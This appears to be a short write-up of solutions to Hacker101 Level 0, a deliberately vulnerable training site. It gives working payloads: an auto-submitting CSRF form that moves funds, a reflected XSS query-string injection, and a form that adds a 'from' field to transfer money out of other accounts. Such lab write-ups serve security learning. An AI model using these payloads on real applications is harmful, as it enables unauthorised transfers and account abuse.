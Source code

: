 # [Hacker101 Level 0](https://levels-a.hacker101.com/levels/0/)

There are some hints in the page source.

## 1 General

Try to send negative amount, it shows an error but you also get a link to a [sample bug report](https://levels-a.hacker101.com/static/report0.txt).

## 2 CSRF

From the report we can see that the target doesn't CSRF protection, therefore we can send request from other resources.

For example:

```html
<body onload="document.forms[0].submit()">
	<form action="http://h101levels.appspot.com/levels/0/" method="POST">
		<input type="hidden" name="amount" value="1000000">
		<input type="hidden" name="to" value="1625">
	</form>
</body>
```

## 3 Reflected XSS 

The amount input tag is vulnerable to XSS.  
You can add it to the querystring and inject XSS.  

For example:
```html
https://levels-a.hacker101.com/levels/0/?to=1258&amount=1"onmouseover="alert('XSS')
```

## 4 Authorization Bypass/Direct Object Reference

You can transfer funds from any account to yours.

For example:

```html
<form action="/levels/0/" method="POST">
    <h2>Transfer Funds</h2>
    Destination account: <input type="input" name="to" value="1258"><br>
    Amount: <input type="input" name="amount" value="1000000">
    <br>
    From: <input type="input" name="from" value="">
    <br>
    <br>
    <input type="submit" value="Transfer">
</form>
```